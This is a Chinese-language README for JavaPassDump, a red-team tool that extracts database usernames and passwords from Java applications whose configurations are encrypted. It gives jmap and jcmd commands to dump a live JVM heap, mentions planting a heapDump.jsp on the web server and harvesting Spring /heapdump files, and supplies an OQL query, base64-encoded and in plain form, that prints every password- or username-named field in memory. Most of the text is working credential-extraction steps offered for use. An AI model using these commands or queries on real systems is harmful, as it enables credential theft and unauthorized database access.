


## JavaPassDump


##### 背景：

红队实战中，有遇到数据库的配置信息加密的情况，有些甚至在Native层处理加解密，为简化红队流程，产生一个通用的数据库信息提取工具：JavaPassDump。

##### 思路：

所有在Java层的数据库连接，最终都会维持一个DB Driver Object，其中会保留数据库的连接配置。思路一：基于经验的，匹配所有DB Driver，从内存中找到Driver Object，获取username/password字段 ；思路二：绝大部分的配置信息，在内存中，都是String类型的field字段，直接从内存中提取password字段的field值。两种思路的前提都是能够分析内存，尝试直接分析运行时内存，从中提取配置信息，无奈坑点太多，遂转入dump JVMHeap，直接通过OQL语言进行分析。

##### 实践:

实战中，DumpJVNHeap大小从几M～几G左右不等，拉到本地分析不太现实，直接在线上分析拿到分析结果就行。这样，在流量层面，效率方面，更优化。为了更简单通用，采用思路二，直接提取password字段的值。


### 数据库常见加密案例

-  jasypt加密

```
	web.xml中配置 jasypt.encryptor.password:abc 
	或 java -jar -Djasypt.encryptor.password=abc xxx.jar
	spring.datasource.username: ENC(ik9FE3GiYLiHwchiyHg9QQ==)
```
-  druid非对称加密

```
	application.properties中配置 connectionProperties属性 config.decrypt.key=${first.spring.datasource.publicKey}
	或者自定义在jar包中
	first.spring.datasource.username = root
	first.spring.datasource.password = QMmZSCar/ZDXDc0PeewOjCAy5fnBh4CTG1bNN2/JpUMiP/Q9x4rkuTLrIUef04UzV/ix63mmN5yJOpuYG7yooA==
	#默认Spring publicKey
	first.spring.datasource.publicKey = MFwwDQYJKoZIhvcNAQEBBQADSwAwSAJBAJR+7qC9yg4OD6obbSeTasFDnOLTdUvuyRcyfBaBNPLlDl5IfAAvf3HwpM9j0F0sHh0M3kIzo301Evd2P/fc57ECAwEAAQ==
```
- Spring 自定义加密

```
	继承PropertyPlaceholderConfigurer类，自定义属性加密方法，加密jdbc.properties中的属性值
	https://blog.csdn.net/tanggao1314/article/details/83302593
	继承spring后置处理器BeanPostProcessor类，自定义属性加解密方法
	https://segmentfault.com/a/1190000040298137
```
- 自定义配置加密

```
   #摘自某运维应用系统
	public static void initDBConfig() {
		InputStream in = DBConnPool.class.getClassLoader().getResourceAsStream("dbconfig.properties");

		Properties prop = new Properties();

		prop.load(in);

		account_enc = Boolean.parseBoolean(prop.getProperty("account_enc"));
		enc_key = prop.getProperty("enc_key");


		String driverName = prop.getProperty(String.valueOf(sourceName) + ".driver");

		String dbURL = prop.getProperty(String.valueOf(sourceName) + ".db_url");

		String user = prop.getProperty(String.valueOf(sourceName) + ".db_user");

		String password = prop.getProperty(String.valueOf(sourceName) + ".db_password");


		if (account_enc && enc_key != null && enc_key.length() == 8) {
		  StringBuffer stringBuffer = new StringBuffer(enc_key);
		  String key1 = stringBuffer.reverse().toString();
		  user = new String(AES.Decrypt(AES.hex2byte(user), String.valueOf(key1) + enc_key));
		  password = new String(AES.Decrypt(AES.hex2byte(password), String.valueOf(key1) + enc_key));
		} 
	}
	
```

## Usage command

##### 注意

```
根据线上JDK环境，适配对应的jar，
OQLQuery7-.jar 适配JDK<=7
OQLQuery8+.jar 适配JDK>=8

除了线上环境，OQLQuery.jar也可以用在本地分析JvmHeapDump.hprof文件,例如：Spring的/heapdump接口，产生的dump文件，利用对应的OQL语句，也可以提取出密码参数


若WebServer是以JDK6启动的，生成的JVM 内存镜像, 所有String类型的变量值，都存储在字符串常量池中，无法直接通过field的值读取 

Tips: 常量池，可分为运行时常量池、类常量池、字符串常量池，在JDK6时，字符串常量池位于方法区中，在JDK7时，把字符串常量池移到了堆中；在JDK8时，把方法区干掉，换成了堆外内存的元数据空间，同时运行时常量池和类常量池跟着在元数据空间中，但字符串常量池仍在堆中；
```



##### 获取JVMHeapDump

```
#jmap，jcmd 都是JDK自带工具，指定JVM pid 直接dump
>jmap -dump:live,format=b,file=/tmp/dumpHeap.hprof 5760  #live Object
>jmap -dump:format=b,file=/tmp/dumpHeap.hprof 19770  # all Object 不建议

>jcmd 5760 GC.heap_dump /tmp/dumpHeap.hprof

# 放置于webServer，访问时，dump当前JVM的heap到/tmp目录，windows系统，需要修改路径
>heapDump.jsp 
```
##### 分析JVMHeap文件

```
java -jar ./OQLQuery.jar /tmp/dumpHeap.hprof dmFyIGZpbHRlciA9IHt9OwptYXAoaGVhcC5jbGFzc2VzKCksIGZ1bmN0aW9uIChjbHMpIHsKICAgcmV0dXJuIG1hcChjbHMuZmllbGRzLCBmdW5jdGlvbiAoZmllbGQpIHsgCiAgICAgIGlmKCBmaWVsZC5uYW1lLnRvU3RyaW5nKCkuY29udGFpbnMoInBhc3MiKSB8fCBmaWVsZC5uYW1lLnRvU3RyaW5nKCkuY29udGFpbnMoInVzZXJuYW1lIikgfHxmaWVsZC5uYW1lLnRvU3RyaW5nKCkuY29udGFpbnMoIlBBU1MiKSl7CiAgICAgICAgcmV0dXJuIG1hcChoZWFwLm9iamVjdHMoY2xzKSwgZnVuY3Rpb24gKG9icykgewogICAgICAgICAgdmFyIHRhZyA9IGNscy5uYW1lKyJ8IitmaWVsZC5uYW1lIDsKICAgICAgICAgIHZhciByZXMgPSAgImNsYXNzIDogIitjbHMubmFtZSsiXG4gRmllbGQgWyAiK2ZpZWxkLm5hbWUudG9TdHJpbmcoKSsiIDogIjsKICAgICAgICAgIGlmKCBvYnNbZmllbGQubmFtZS50b1N0cmluZygpXSAhPSBudWxsICl7CiAgICAgICAgICAgIHJlcyA9IHJlcyArIG9ic1tmaWVsZC5uYW1lLnRvU3RyaW5nKCldLnRvU3RyaW5nKCkrIiBdXG4iOwogICAgICAgICAgfWVsc2V7CiAgICAgICAgICAgIHJlcyA9IHJlcyArICJudWxsIF1cbiI7CiAgICAgICAgICB9CiAgICAgICAgICBpZiAoZmlsdGVyW3RhZ10gPT0gbnVsbCkgewogICAgICAgICAgICBmaWx0ZXJbdGFnXSA9IHJlczsKICAgICAgICAgICAgcHJpbnQocmVzKTsKICAgICAgICAgIH0KICAgICAgICAgIHJldHVybiBudWxsOwogICAgICAgIH0pOwogICAgICB9CiAgICAgIHJldHVybiBudWxsOwogIH0pOwp9KTs=
```
##### oql语句

```
var filter = {};
map(heap.classes(), function (cls) {
   return map(cls.fields, function (field) { 
      if( field.name.toString().contains("pass") || field.name.toString().contains("username") ||field.name.toString().contains("PASS")){
        return map(heap.objects(cls), function (obs) {
          var tag = cls.name+"|"+field.name ;
          var res =  "class : "+cls.name+"\n Field [ "+field.name.toString()+" : ";
          if( obs[field.name.toString()] != null ){
            res = res + obs[field.name.toString()].toString()+" ]\n";
          }else{
            res = res + "null ]\n";
          }
          if (filter[tag] == null) {
            filter[tag] = res;
            print(res);
          }
          return null;
        });
      }
      return null;
  });
});

```
##### 运行效果


